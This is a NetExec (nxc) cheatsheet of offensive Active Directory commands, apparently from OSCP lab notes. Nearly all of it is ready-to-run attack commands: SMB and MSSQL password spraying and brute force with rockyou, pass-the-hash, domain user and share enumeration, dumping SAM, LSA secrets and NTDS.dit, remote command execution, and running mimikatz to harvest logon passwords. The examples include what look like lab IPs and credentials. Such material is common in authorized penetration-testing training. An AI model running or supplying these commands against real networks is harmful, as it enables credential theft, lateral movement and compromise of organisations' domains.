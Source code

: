 # nxc (NXC) Cheatsheet
- [nxc](https://github.com/Pennyw0rth/NetExec) 
### Core Usage & Supported Services
- `nxc {smb/winrm/mssql/ldap/ftp/ssh/rdp}`
## 0. Quick Examples
```bash
# Export users list querying DC
nxc smb 10.10.158.140 -u 'Eric.Wallows' -p 'EricLikesRunning800' --users-export ./oscp_users.txt

nxc smb 10.10.158.142 -u 'Eric.Wallows' -p 'EricLikesRunning800' --shares     # share enumerate
nxc smb 10.10.158.142 -u users.txt  -p passwords.txt  --continue-on-success   # password spray

# MSSQL password spray
nxc mssql 10.10.158.142 --local-auth -u 'sa'  -p  /usr/share/wordlists/rockyou.txt  --ignore-pw-decoding


```
## 1. Bruteforce & Authentication
```bash
# Bruteforce attack using user/password files
nxc smb <Rhost/range> -u user.txt -p password.txt --continue-on-success
# Filter for successful logins only
nxc smb <Rhost/range> -u user.txt -p password.txt --continue-on-success | grep '[+]'
# Password spraying (list of users against a single password)
nxc smb <Rhost/range> -u user.txt -p 'password' --continue-on-success
# Use hash instead of password (Pass-the-Hash) for a local account
nxc smb <ip or range> -u username -H <full hash> --local-auth
```
## 2. Enumeration & Discovery (Requires valid credentials)
```bash
# List accessible shares
nxc smb <Rhost/range> -u 'user' -p 'password' --shares
# Build hoss file from DC
nxc smb 192.168.205.172 -u "guest" -p "" --generate-hosts-file ./scans/hosts
# List accessible disks
nxc smb <Rhost/range> -u 'user' -p 'password' --disks
# Enumerate users on the target (best against DC)
nxc smb <DC-IP> -u 'user' -p 'password' --users 
# View active logon sessions
nxc smb <Rhost/range> -u 'user' -p 'password' --sessions
# Dump password policy
nxc smb <Rhost/range> -u 'user' -p 'password' --pass-pol
# Enumerate groups or users in a specific group
nxc smb <Rhost/range> -u 'user' -p 'password' --groups 'Domain Admins'
```
## 3. Credential Dumping (Requires administrative privileges)
```bash
# Dump local SAM hashes
nxc smb <Rhost/range> -u 'user' -p 'password' --sam
# Dump LSA secrets
nxc smb <Rhost/range> -u 'user' -p 'password' --lsa
# Dump NTDS.dit file (from a Domain Controller)
nxc smb <Rhost/range> -u 'user' -p 'password' --ntds
```
## 4. Command Execution (Requires administrative privileges)
```bash
# Execute a CMD command
nxc smb <Rhost/range> -u 'user' -p 'password' -x 'command'
# Execute a PowerShell command
nxc smb <Rhost/range> -u 'user' -p 'password' -X 'powershell command'
```
## 5. Module Usage
```bash
# List all available modules for a service
nxc smb -L 
# Show required options for a module
nxc smb -M mimikatz --options
# Run a module with default settings
nxc smb <Rhost> -u 'user' -p 'password' -M mimikatz
# Run a module with specific options
nxc smb <Rhost> -u 'user' -p 'password' -M mimikatz -o COMMAND='sekurlsa::logonpasswords'

```